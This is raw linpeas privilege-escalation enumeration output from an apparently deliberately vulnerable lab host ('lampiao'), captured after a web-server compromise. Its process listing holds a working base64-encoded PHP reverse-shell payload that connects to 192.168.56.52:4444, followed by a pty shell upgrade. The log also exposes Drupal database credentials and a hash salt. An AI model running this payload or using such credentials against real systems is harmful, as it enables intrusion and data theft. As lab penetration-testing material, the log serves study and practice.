www-data  1342  0.0  1.3 117052 22152 ?        S    08:26   0:00  _ /usr/sbin/apache2 -k start
www-data  1350  0.0  1.3 117624 22400 ?        S    08:26   0:00  _ /usr/sbin/apache2 -k start
www-data 14093  0.0  0.0   2284   604 ?        S    12:08   0:00  |   _ sh -c php -r 'eval(base64_decode("Lyo8P3BocCAvKiovIGVycm9yX3JlcG9ydGluZygwKTsgJGlwID0gJzE5Mi4xNjguNTYuNTInOyAkcG9ydCA9IDQ0NDQ7IGlmICgoJGYgPSAnc3RyZWFtX3NvY2tldF9jbGllbnQnKSAmJiBpc19jYWxsYWJsZSgkZikpIHsgJHMgPSAkZigidGNwOi8veyRpcH06eyRwb3J0fSIpOyAkc190eXBlID0gJ3N0cmVhbSc7IH0gaWYgKCEkcyAmJiAoJGYgPSAnZnNvY2tvcGVuJykgJiYgaXNfY2FsbGFibGUoJGYpKSB7ICRzID0gJGYoJGlwLCAkcG9ydCk7ICRzX3R5cGUgPSAnc3RyZWFtJzsgfSBpZiAoISRzICYmICgkZiA9ICdzb2NrZXRfY3JlYXRlJykgJiYgaXNfY2FsbGFibGUoJGYpKSB7ICRzID0gJGYoQUZfSU5FVCwgU09DS19TVFJFQU0sIFNPTF9UQ1ApOyAkcmVzID0gQHNvY2tldF9jb25uZWN0KCRzLCAkaXAsICRwb3J0KTsgaWYgKCEkcmVzKSB7IGRpZSgpOyB9ICRzX3R5cGUgPSAnc29ja2V0JzsgfSBpZiAoISRzX3R5cGUpIHsgZGllKCdubyBzb2NrZXQgZnVuY3MnKTsgfSBpZiAoISRzKSB7IGRpZSgnbm8gc29ja2V0Jyk7IH0gc3dpdGNoICgkc190eXBlKSB7IGNhc2UgJ3N0cmVhbSc6ICRsZW4gPSBmcmVhZCgkcywgNCk7IGJyZWFrOyBjYXNlICdzb2NrZXQnOiAkbGVuID0gc29ja2V0X3JlYWQoJHMsIDQpOyBicmVhazsgfSBpZiAoISRsZW4pIHsgZGllKCk7IH0gJGEgPSB1bnBhY2so.Ik5sZW4iLCAkbGVuKTsgJGxlbiA9ICRhWydsZW4nXTsgJGIgPSAnJzsgd2hpbGUgKHN0cmxlbigkYikgPCAkbGVuKSB7IHN3aXRjaCAoJHNfdHlwZSkgeyBjYXNlICdzdHJlYW0nOiAkYiAuPSBmcmVhZCgkcywgJGxlbi1zdHJsZW4oJGIpKTsgYnJlYWs7IGNhc2UgJ3NvY2tldCc6ICRiIC49IHNvY2tldF9yZWFkKCRzLCAkbGVuLXN0cmxlbigkYikpOyBicmVhazsgfSB9ICRHTE9CQUxTWydtc2dzb2NrJ10gPSAkczsgJEdMT0JBTFNbJ21zZ3NvY2tfdHlwZSddID0gJHNfdHlwZTsgaWYgKGV4dGVuc2lvbl9sb2FkZWQoJ3N1aG9zaW4nKSAmJiBpbmlfZ2V0KCdzdWhvc2luLmV4ZWN1dG9yLmRpc2FibGVfZXZhbCcpKSB7ICRzdWhvc2luX2J5cGFzcz1jcmVhdGVfZnVuY3Rpb24oJycsICRiKTsgJHN1aG9zaW5fYnlwYXNzKCk7IH0gZWxzZSB7IGV2YWwoJGIpOyB9IGRpZSgpOw"));'
www-data 14094  0.0  1.0  48480 17636 ?        S    12:08   0:01  |       _ php -r eval(base64_decode("Lyo8P3BocCAvKiovIGVycm9yX3JlcG9ydGluZygwKTsgJGlwID0gJzE5Mi4xNjguNTYuNTInOyAkcG9ydCA9IDQ0NDQ7IGlmICgoJGYgPSAnc3RyZWFtX3NvY2tldF9jbGllbnQnKSAmJiBpc19jYWxsYWJsZSgkZikpIHsgJHMgPSAkZigidGNwOi8veyRpcH06eyRwb3J0fSIpOyAkc190eXBlID0gJ3N0cmVhbSc7IH0gaWYgKCEkcyAmJiAoJGYgPSAnZnNvY2tvcGVuJykgJiYgaXNfY2FsbGFibGUoJGYpKSB7ICRzID0gJGYoJGlwLCAkcG9ydCk7ICRzX3R5cGUgPSAnc3RyZWFtJzsgfSBpZiAoISRzICYmICgkZiA9ICdzb2NrZXRfY3JlYXRlJykgJiYgaXNfY2FsbGFibGUoJGYpKSB7ICRzID0gJGYoQUZfSU5FVCwgU09DS19TVFJFQU0sIFNPTF9UQ1ApOyAkcmVzID0gQHNvY2tldF9jb25uZWN0KCRzLCAkaXAsICRwb3J0KTsgaWYgKCEkcmVzKSB7IGRpZSgpOyB9ICRzX3R5cGUgPSAnc29ja2V0JzsgfSBpZiAoISRzX3R5cGUpIHsgZGllKCdubyBzb2NrZXQgZnVuY3MnKTsgfSBpZiAoISRzKSB7IGRpZSgnbm8gc29ja2V0Jyk7IH0gc3dpdGNoICgkc190eXBlKSB7IGNhc2UgJ3N0cmVhbSc6ICRsZW4gPSBmcmVhZCgkcywgNCk7IGJyZWFrOyBjYXNlICdzb2NrZXQnOiAkbGVuID0gc29ja2V0X3JlYWQoJHMsIDQpOyBicmVhazsgfSBpZiAoISRsZW4pIHsgZGllKCk7IH0gJGEgPSB1bnBhY2so.Ik5sZW4iLCAkbGVuKTsgJGxlbiA9ICRhWydsZW4nXTsgJGIgPSAnJzsgd2hpbGUgKHN0cmxlbigkYikgPCAkbGVuKSB7IHN3aXRjaCAoJHNfdHlwZSkgeyBjYXNlICdzdHJlYW0nOiAkYiAuPSBmcmVhZCgkcywgJGxlbi1zdHJsZW4oJGIpKTsgYnJlYWs7IGNhc2UgJ3NvY2tldCc6ICRiIC49IHNvY2tldF9yZWFkKCRzLCAkbGVuLXN0cmxlbigkYikpOyBicmVhazsgfSB9ICRHTE9CQUxTWydtc2dzb2NrJ10gPSAkczsgJEdMT0JBTFNbJ21zZ3NvY2tfdHlwZSddID0gJHNfdHlwZTsgaWYgKGV4dGVuc2lvbl9sb2FkZWQoJ3N1aG9zaW4nKSAmJiBpbmlfZ2V0KCdzdWhvc2luLmV4ZWN1dG9yLmRpc2FibGVfZXZhbCcpKSB7ICRzdWhvc2luX2J5cGFzcz1jcmVhdGVfZnVuY3Rpb24oJycsICRiKTsgJHN1aG9zaW5fYnlwYXNzKCk7IH0gZWxzZSB7IGV2YWwoJGIpOyB9IGRpZSgpOw"));
www-data 14352  0.0  0.0   2284   588 ?        S    12:12   0:00  |           _ sh -c /bin/sh 
www-data 14353  0.0  0.0   2284   604 ?        S    12:12   0:00  |               _ /bin/sh
www-data 14620  0.0  0.3   7528  5800 ?        S    12:17   0:00  |                   _ python -c import pty;pty.spawn('/bin/bash')
www-data 14621  0.0  0.1   3556  3044 pts/1    Ss   12:17   0:00  |                       _ /bin/bash
www-data 16121  0.1  0.1   2812  2064 pts/1    S+   12:43   0:00  |                           _ /bin/sh ./linpeas.sh
www-data 20569  0.0  0.0   2812   684 pts/1    S+   12:44   0:00  |                               _ /bin/sh ./linpeas.sh
www-data 20573  0.0  0.1   3300  2020 pts/1    R+   12:44   0:00  |                               |   _ ps fauxwww
www-data 20572  0.0  0.0   2812   684 pts/1    S+   12:44   0:00  |                               _ /bin/sh ./linpeas.sh
www-data  1770  0.0  1.3 116804 22164 ?        S    08:33   0:00  _ /usr/sbin/apache2 -k start
www-data  1771  0.0  1.2 116796 21568 ?        S    08:33   0:00  _ /usr/sbin/apache2 -k start
www-data  1772  0.0  1.2 116540 21508 ?        S    08:33   0:00  _ /usr/sbin/apache2 -k start
www-data  1773  0.0  1.2 116796 21832 ?        S    08:33   0:00  _ /usr/sbin/apache2 -k start
root      1061  0.0  0.1   4660  1840 tty1     Ss+  08:23   0:00 /sbin/getty -8 38400 tty1

╔══════════╣ Binary processes permissions (non 'root root' and not belonging to current user)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#processes                                                                                                                                                                       
                                                                                                                                                                                                                                                   
╔══════════╣ Processes whose PPID belongs to a different user (not root)
╚ You will know if a user can somehow spawn processes as a different user                                                                                                                                                                          
Proc 407 with ppid 1 is run by user syslog but the ppid user is root                                                                                                                                                                               
Proc 830 with ppid 1 is run by user daemon but the ppid user is root
Proc 938 with ppid 1 is run by user mysql but the ppid user is root
Proc 1024 with ppid 1015 is run by user www-data but the ppid user is root
Proc 1025 with ppid 1015 is run by user www-data but the ppid user is root
Proc 1026 with ppid 1015 is run by user www-data but the ppid user is root
Proc 1027 with ppid 1015 is run by user www-data but the ppid user is root
Proc 1342 with ppid 1015 is run by user www-data but the ppid user is root
Proc 1350 with ppid 1015 is run by user www-data but the ppid user is root
Proc 1770 with ppid 1015 is run by user www-data but the ppid user is root
Proc 1771 with ppid 1015 is run by user www-data but the ppid user is root
Proc 1772 with ppid 1015 is run by user www-data but the ppid user is root
Proc 1773 with ppid 1015 is run by user www-data but the ppid user is root

╔══════════╣ Files opened by processes belonging to other users
╚ This is usually empty because of the lack of privileges to read other user processes information                                                                                                                                                 
COMMAND     PID  TID     USER   FD      TYPE     DEVICE SIZE/OFF    NODE NAME                                                                                                                                                                      

╔══════════╣ Processes with credentials in memory (root req)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#credentials-from-process-memory                                                                                                                                                 
gdm-password Not Found                                                                                                                                                                                                                             
gnome-keyring-daemon Not Found                                                                                                                                                                                                                     
lightdm Not Found                                                                                                                                                                                                                                  
vsftpd Not Found                                                                                                                                                                                                                                   
apache2 process found (dump creds from memory as root)                                                                                                                                                                                             
sshd Not Found
                                                                                                                                                                                                                                                   
╔══════════╣ Cron jobs
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs                                                                                                                                                             
/usr/bin/crontab                                                                                                                                                                                                                                   
incrontab Not Found
-rw-r--r-- 1 root root     722 Feb  9  2013 /etc/crontab                                                                                                                                                                                           

/etc/cron.d:
total 16
drwxr-xr-x  2 root root 4096 Apr 19  2018 .
drwxr-xr-x 93 root root 4096 May 23 08:23 ..
-rw-r--r--  1 root root  102 Feb  9  2013 .placeholder
-rw-r--r--  1 root root  510 Jul 28  2016 php5

/etc/cron.daily:
total 76
drwxr-xr-x  2 root root  4096 Apr 19  2018 .
drwxr-xr-x 93 root root  4096 May 23 08:23 ..
-rw-r--r--  1 root root   102 Feb  9  2013 .placeholder
-rwxr-xr-x  1 root root   625 Jul 15  2016 apache2
-rwxr-xr-x  1 root root   376 Apr  4  2014 apport
-rwxr-xr-x  1 root root 15481 Apr 10  2014 apt
-rwxr-xr-x  1 root root   314 Feb 17  2014 aptitude
-rwxr-xr-x  1 root root   355 Jun  4  2013 bsdmainutils
-rwxr-xr-x  1 root root   256 Mar  7  2014 dpkg
-rwxr-xr-x  1 root root   372 Jan 22  2014 logrotate
-rwxr-xr-x  1 root root  1261 Sep 23  2014 man-db
-rwxr-xr-x  1 root root   435 Jun 20  2013 mlocate
-rwxr-xr-x  1 root root   249 Feb 16  2014 passwd
-rwxr-xr-x  1 root root  2417 May 13  2013 popularity-contest
-rwxr-xr-x  1 root root   214 Oct  6  2014 update-notifier-common
-rwxr-xr-x  1 root root   328 Jul 18  2014 upstart

/etc/cron.hourly:
total 12
drwxr-xr-x  2 root root 4096 Apr 19  2018 .
drwxr-xr-x 93 root root 4096 May 23 08:23 ..
-rw-r--r--  1 root root  102 Feb  9  2013 .placeholder

/etc/cron.monthly:
total 12
drwxr-xr-x  2 root root 4096 Apr 19  2018 .
drwxr-xr-x 93 root root 4096 May 23 08:23 ..
-rw-r--r--  1 root root  102 Feb  9  2013 .placeholder

/etc/cron.weekly:
total 28
drwxr-xr-x  2 root root 4096 Apr 19  2018 .
drwxr-xr-x 93 root root 4096 May 23 08:23 ..
-rw-r--r--  1 root root  102 Feb  9  2013 .placeholder
-rwxr-xr-x  1 root root  730 Feb 23  2014 apt-xapian-index
-rwxr-xr-x  1 root root  427 Apr 16  2014 fstrim
-rwxr-xr-x  1 root root  771 Sep 23  2014 man-db
-rwxr-xr-x  1 root root  211 Oct  6  2014 update-notifier-common

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )

╔══════════╣ Systemd PATH
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#systemd-path-relative-paths                                                                                                                                                     
                                                                                                                                                                                                                                                   
╔══════════╣ Analyzing .service files
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#services                                                                                                                                                                        
You can't write on systemd PATH                                                                                                                                                                                                                    

╔══════════╣ System timers
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#timers                                                                                                                                                                          
                                                                                                                                                                                                                                                   
╔══════════╣ Analyzing .timer files
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#timers                                                                                                                                                                          
                                                                                                                                                                                                                                                   
╔══════════╣ Analyzing .socket files
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sockets                                                                                                                                                                         
                                                                                                                                                                                                                                                   
╔══════════╣ Unix Sockets Listening
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sockets                                                                                                                                                                         
sed: -e expression #1, char 0: no previous regular expression                                                                                                                                                                                      
/com/ubuntu/upstart
/dev/log
  └─(Read Write)
/run/acpid.socket
  └─(Read Write)
/run/mysqld/mysqld.sock
  └─(Read Write)
/run/udev/control
  └─(Read )
/var/run/acpid.socket
  └─(Read Write)
/var/run/mysqld/mysqld.sock
  └─(Read Write)

╔══════════╣ D-Bus config files
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#d-bus                                                                                                                                                                           
Possible weak user policy found on /etc/dbus-1/system.d/wpa_supplicant.conf (        <policy group="netdev">)                                                                                                                                      

╔══════════╣ D-Bus Service Objects list
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#d-bus                                                                                                                                                                           
busctl Not Found                                                                                                                                                                                                                                   
                                                                                                                                                                                                                                                   

                              ╔═════════════════════╗
══════════════════════════════╣ Network Information ╠══════════════════════════════                                                                                                                                                                
                              ╚═════════════════════╝                                                                                                                                                                                              
╔══════════╣ Hostname, hosts and DNS
lampiao                                                                                                                                                                                                                                            
127.0.0.1       localhost
127.0.1.1       lampiao

::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

╔══════════╣ Interfaces
# symbolic names for networks, see networks(5) for more information                                                                                                                                                                                
link-local 169.254.0.0
eth0      Link encap:Ethernet  HWaddr 08:00:27:bb:d0:0b  
          inet addr:192.168.56.122  Bcast:192.168.56.255  Mask:255.255.255.0
          inet6 addr: fe80::a00:27ff:febb:d00b/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:73887 errors:0 dropped:0 overruns:0 frame:0
          TX packets:70975 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:6654079 (6.6 MB)  TX bytes:5736524 (5.7 MB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:292 errors:0 dropped:0 overruns:0 frame:0
          TX packets:292 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1 
          RX bytes:25324 (25.3 KB)  TX bytes:25324 (25.3 KB)


╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                                                                                                                      
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                                                                                                                                                                  
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::1898                 :::*                    LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -               

╔══════════╣ Can I sniff with tcpdump?
No                                                                                                                                                                                                                                                 
                                                                                                                                                                                                                                                   


                               ╔═══════════════════╗
═══════════════════════════════╣ Users Information ╠═══════════════════════════════                                                                                                                                                                
                               ╚═══════════════════╝                                                                                                                                                                                               
╔══════════╣ My user
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#users                                                                                                                                                                           
uid=33(www-data) gid=33(www-data) groups=33(www-data)                                                                                                                                                                                              

╔══════════╣ Do I have PGP keys?
/usr/bin/gpg                                                                                                                                                                                                                                       
netpgpkeys Not Found
netpgp Not Found                                                                                                                                                                                                                                   
                                                                                                                                                                                                                                                   
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                                                                                                                   
                                                                                                                                                                                                                                                   
╔══════════╣ Checking sudo tokens
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#reusing-sudo-tokens                                                                                                                                                             
ptrace protection is enabled (1)                                                                                                                                                                                                                   

╔══════════╣ Checking Pkexec policy
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe#pe-method-2                                                                                                                                         
                                                                                                                                                                                                                                                   
[Configuration]
AdminIdentities=unix-user:0
[Configuration]
AdminIdentities=unix-group:sudo;unix-group:admin

╔══════════╣ Superusers
root:x:0:0:root:/root:/bin/bash                                                                                                                                                                                                                    

╔══════════╣ Users with console
root:x:0:0:root:/root:/bin/bash                                                                                                                                                                                                                    
tiago:x:1000:1000:tiago,,,:/home/tiago:/bin/bash

╔══════════╣ All users & groups
uid=0(root) gid=0(root) groups=0(root)                                                                                                                                                                                                             
uid=1(daemon[0m) gid=1(daemon[0m) groups=1(daemon[0m)
uid=10(uucp) gid=10(uucp) groups=10(uucp)
uid=100(libuuid) gid=101(libuuid) groups=101(libuuid)
uid=1000(tiago) gid=1000(tiago) groups=1000(tiago)
uid=101(syslog) gid=104(syslog) groups=104(syslog),4(adm)
uid=102(mysql) gid=106(mysql) groups=106(mysql)
uid=105(sshd) gid=65534(nogroup) groups=65534(nogroup)
uid=13(proxy) gid=13(proxy) groups=13(proxy)
uid=2(bin) gid=2(bin) groups=2(bin)
uid=3(sys) gid=3(sys) groups=3(sys)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=34(backup) gid=34(backup) groups=34(backup)
uid=38(list) gid=38(list) groups=38(list)
uid=39(irc) gid=39(irc) groups=39(irc)
uid=4(sync) gid=65534(nogroup) groups=65534(nogroup)
uid=41(gnats) gid=41(gnats) groups=41(gnats)
uid=5(games) gid=60(games) groups=60(games)
uid=6(man) gid=12(man) groups=12(man)
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
uid=7(lp) gid=7(lp) groups=7(lp)
uid=8(mail) gid=8(mail) groups=8(mail)
uid=9(news) gid=9(news) groups=9(news)

╔══════════╣ Login now
 12:44:26 up  4:20,  0 users,  load average: 0.89, 0.22, 0.08                                                                                                                                                                                      
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT

╔══════════╣ Last logons
tiago    pts/0        Fri Apr 20 12:08:01 2018 - down                      (00:09)     192.168.108.1                                                                                                                                               
tiago    tty1         Fri Apr 20 12:07:34 2018 - down                      (00:10)     0.0.0.0
reboot   system boot  Fri Apr 20 12:07:08 2018 - Fri Apr 20 12:17:43 2018  (00:10)     0.0.0.0
tiago    pts/0        Thu Apr 19 17:40:40 2018 - down                      (00:54)     192.168.108.1
reboot   system boot  Thu Apr 19 17:40:06 2018 - Thu Apr 19 18:35:15 2018  (00:55)     0.0.0.0
tiago    pts/0        Thu Apr 19 16:05:15 2018 - down                      (01:34)     192.168.108.1
tiago    tty1         Thu Apr 19 16:04:32 2018 - down                      (01:35)     0.0.0.0
reboot   system boot  Thu Apr 19 16:02:59 2018 - Thu Apr 19 17:39:34 2018  (01:36)     0.0.0.0

wtmp begins Thu Apr 19 16:02:59 2018

╔══════════╣ Last time logon each user
Username         Port     From             Latest                                                                                                                                                                                                  
tiago            pts/1    192.168.56.52    Fri May 23 11:46:39 -0300 2025
root             pts/2    192.168.108.1    Fri Apr 20 14:46:57 -0300 2018

╔══════════╣ Do not forget to test 'su' as any other user with shell: without password and with their names as password (I don't do it in FAST mode...)
                                                                                                                                                                                                                                                   
╔══════════╣ Do not forget to execute 'sudo -l' without password or with valid password (if you know it)!!
                                                                                                                                                                                                                                                   


                             ╔══════════════════════╗
═════════════════════════════╣ Software Information ╠═════════════════════════════                                                                                                                                                                 
                             ╚══════════════════════╝                                                                                                                                                                                              
╔══════════╣ Useful software
/usr/bin/base64                                                                                                                                                                                                                                    
/usr/bin/curl
/usr/bin/g++
/usr/bin/gcc
/usr/bin/make
/bin/nc
/bin/netcat
/usr/bin/perl
/usr/bin/php
/bin/ping
/usr/bin/python
/usr/bin/python2
/usr/bin/python2.7
/usr/bin/python3
/usr/bin/sudo
/usr/bin/wget

╔══════════╣ Installed Compilers
ii  g++                                4:4.8.2-1ubuntu6                 i386         GNU C++ compiler                                                                                                                                              
ii  g++-4.8                            4.8.4-2ubuntu1~14.04.4           i386         GNU C++ compiler
ii  gcc                                4:4.8.2-1ubuntu6                 i386         GNU C compiler
ii  gcc-4.8                            4.8.4-2ubuntu1~14.04.4           i386         GNU C compiler
/usr/bin/gcc

╔══════════╣ MySQL version
mysql  Ver 14.14 Distrib 5.5.50, for debian-linux-gnu (i686) using readline 6.3                                                                                                                                                                    


═╣ MySQL connection using default root/root ........... No
═╣ MySQL connection using root/toor ................... No                                                                                                                                                                                         
═╣ MySQL connection using root/NOPASS ................. No                                                                                                                                                                                         
                                                                                                                                                                                                                                                   
╔══════════╣ Searching mysql credentials and exec
From '/etc/mysql/my.cnf' Mysql user: user               = mysql                                                                                                                                                                                    
Found readable /etc/mysql/my.cnf
[client]
port            = 3306
socket          = /var/run/mysqld/mysqld.sock
[mysqld_safe]
socket          = /var/run/mysqld/mysqld.sock
nice            = 0
[mysqld]
user            = mysql
pid-file        = /var/run/mysqld/mysqld.pid
socket          = /var/run/mysqld/mysqld.sock
port            = 3306
basedir         = /usr
datadir         = /var/lib/mysql
tmpdir          = /tmp
lc-messages-dir = /usr/share/mysql
skip-external-locking
bind-address            = 127.0.0.1
key_buffer              = 16M
max_allowed_packet      = 16M
thread_stack            = 192K
thread_cache_size       = 8
myisam-recover         = BACKUP
query_cache_limit       = 1M
query_cache_size        = 16M
log_error = /var/log/mysql/error.log
expire_logs_days        = 10
max_binlog_size         = 100M
[mysqldump]
quick
quote-names
max_allowed_packet      = 16M
[mysql]
[isamchk]
key_buffer              = 16M
!includedir /etc/mysql/conf.d/

╔══════════╣ Analyzing MariaDB Files (limit 70)
                                                                                                                                                                                                                                                   
-rw------- 1 root root 333 Apr 19  2018 /etc/mysql/debian.cnf

╔══════════╣ Analyzing Apache-Nginx Files (limit 70)
Apache version: Server version: Apache/2.4.7 (Ubuntu)                                                                                                                                                                                              
Server built:   Apr 18 2018 15:36:57
httpd Not Found
                                                                                                                                                                                                                                                   
Nginx version: nginx Not Found
                                                                                                                                                                                                                                                   
/etc/apache2/mods-enabled/php5.conf-<FilesMatch ".+\.ph(p[345]?|t|tml)$">
/etc/apache2/mods-enabled/php5.conf:    SetHandler application/x-httpd-php
--
/etc/apache2/mods-enabled/php5.conf-<FilesMatch ".+\.phps$">
/etc/apache2/mods-enabled/php5.conf:    SetHandler application/x-httpd-php-source
--
/etc/apache2/mods-available/php5.conf-<FilesMatch ".+\.ph(p[345]?|t|tml)$">
/etc/apache2/mods-available/php5.conf:    SetHandler application/x-httpd-php
--
/etc/apache2/mods-available/php5.conf-<FilesMatch ".+\.phps$">
/etc/apache2/mods-available/php5.conf:    SetHandler application/x-httpd-php-source
══╣ PHP exec extensions
drwxr-xr-x 2 root root 4096 Apr 19  2018 /etc/apache2/sites-enabled                                                                                                                                                                                
drwxr-xr-x 2 root root 4096 Apr 19  2018 /etc/apache2/sites-enabled
lrwxrwxrwx 1 root root 35 Apr 19  2018 /etc/apache2/sites-enabled/000-default.conf -> ../sites-available/000-default.conf
<VirtualHost *:1898>
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html
    <Directory /var/www/html>
        AllowOverride All
    </Directory>
        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>


-rw-r--r-- 1 root root 1407 Apr 20  2018 /etc/apache2/sites-available/000-default.conf
<VirtualHost *:1898>
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html
    <Directory /var/www/html>
        AllowOverride All
    </Directory>
        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
lrwxrwxrwx 1 root root 35 Apr 19  2018 /etc/apache2/sites-enabled/000-default.conf -> ../sites-available/000-default.conf
<VirtualHost *:1898>
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html
    <Directory /var/www/html>
        AllowOverride All
    </Directory>
        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

-rw-r--r-- 1 root root 69891 Jul 28  2016 /etc/php5/apache2/php.ini
allow_url_fopen = On
allow_url_include = Off
odbc.allow_persistent = On
ibase.allow_persistent = 1
mysql.allow_local_infile = On
mysql.allow_persistent = On
mysqli.allow_persistent = On
pgsql.allow_persistent = On
sybct.allow_persistent = On
mssql.allow_persistent = On
-rw-r--r-- 1 root root 69568 Jul 28  2016 /etc/php5/cli/php.ini
allow_url_fopen = On
allow_url_include = Off
odbc.allow_persistent = On
ibase.allow_persistent = 1
mysql.allow_local_infile = On
mysql.allow_persistent = On
mysqli.allow_persistent = On
pgsql.allow_persistent = On
sybct.allow_persistent = On
mssql.allow_persistent = On


╔══════════╣ Analyzing Drupal Files (limit 70)
-r-xr-xr-x 1 www-data www-data 26558 Apr 19  2018 /var/www/html/sites/default/settings.php                                                                                                                                                         
 *   'driver' => 'mysql',
 *   'database' => 'databasename',
 *   'username' => 'username',
 *   'password' => 'password',
 *   'host' => 'localhost',
 *   'port' => 3306,
 *   'prefix' => 'myprefix_',
 *   'driver' => 'mysql',
 *   'database' => 'databasename',
 *   'username' => 'username',
 *   'password' => 'password',
 *   'host' => 'localhost',
 *   'prefix' => 'main_',
 *   'driver' => 'mysql',
 *   'database' => 'databasename',
 *   'username' => 'username',
 *   'password' => 'password',
 *   'host' => 'localhost',
 * by using the 'prefix' setting. If a prefix is specified, the table
 * To have all database names prefixed, set 'prefix' as a string:
 *   'prefix' => 'main_',
 * To provide prefixes for specific tables, set 'prefix' as an array.
 *   'prefix' => array(
 *   'prefix' => array(
 *     'driver' => 'mysql',
 *     'database' => 'databasename',
 *     'username' => 'username',
 *     'password' => 'password',
 *     'host' => 'localhost',
 *     'prefix' => '',
 *     'driver' => 'pgsql',
 *     'database' => 'databasename',
 *     'username' => 'username',
 *     'password' => 'password',
 *     'host' => 'localhost',
 *     'prefix' => '',
 *     'driver' => 'sqlite',
 *     'database' => '/path/to/databasefilename',
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'Virgulino',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
 *   $drupal_hash_salt = file_get_contents('/home/example/salt.txt');
$drupal_hash_salt = 'Mky3HW4JeKcETD2HWg8pCOyDvXGqo2MZyVkDpnw974M';

╔══════════╣ Analyzing Rsync Files (limit 70)
-rw-r--r-- 1 root root 1044 Jan 20  2016 /usr/share/doc/rsync/examples/rsyncd.conf                                                                                                                                                                 
[ftp]
        comment = public archive
        path = /var/www/pub
        use chroot = yes
        lock file = /var/lock/rsyncd
        read only = yes
        list = yes
        uid = nobody
        gid = nogroup
        strict modes = yes
        ignore errors = no
        ignore nonreadable = yes
        transfer logging = no
        timeout = 600
        refuse options = checksum dry-run
        dont compress = *.gz *.tgz *.zip *.z *.rpm *.deb *.iso *.bz2 *.tbz


╔══════════╣ Analyzing Ldap Files (limit 70)
The password hash is from the {SSHA} to 'structural'                                                                                                                                                                                               
drwxr-xr-x 2 root root 4096 Apr 19  2018 /etc/ldap


╔══════════╣ Searching ssl/ssh files
╔══════════╣ Analyzing SSH Files (limit 70)                                                                                                                                                                                                        
                                                                                                                                                                                                                                                   


-rw-r--r-- 1 root root 602 Apr 19  2018 /etc/ssh/ssh_host_dsa_key.pub
-rw-r--r-- 1 root root 174 Apr 19  2018 /etc/ssh/ssh_host_ecdsa_key.pub
-rw-r--r-- 1 root root 94 Apr 19  2018 /etc/ssh/ssh_host_ed25519_key.pub
-rw-r--r-- 1 root root 394 Apr 19  2018 /etc/ssh/ssh_host_rsa_key.pub

Port 22
PermitRootLogin yes
PubkeyAuthentication yes
PermitEmptyPasswords no
ChallengeResponseAuthentication no
UsePAM yes
══╣ Some certificates were found (out limited):
/etc/ssl/certs/ACCVRAIZ1.pem                                                                                                                                                                                                                       
/etc/ssl/certs/ACEDICOM_Root.pem
/etc/ssl/certs/AC_Raíz_Certicámara_S.A..pem
/etc/ssl/certs/Actalis_Authentication_Root_CA.pem
/etc/ssl/certs/AddTrust_External_Root.pem
/etc/ssl/certs/AddTrust_Low-Value_Services_Root.pem
/etc/ssl/certs/AddTrust_Public_Services_Root.pem
/etc/ssl/certs/AddTrust_Qualified_Certificates_Root.pem
/etc/ssl/certs/AffirmTrust_Commercial.pem
/etc/ssl/certs/AffirmTrust_Networking.pem
/etc/ssl/certs/AffirmTrust_Premium.pem
/etc/ssl/certs/AffirmTrust_Premium_ECC.pem
/etc/ssl/certs/ApplicationCA_-_Japanese_Government.pem
/etc/ssl/certs/Atos_TrustedRoot_2011.pem
/etc/ssl/certs/Autoridad_de_Certificacion_Firmaprofesional_CIF_A62634068.pem
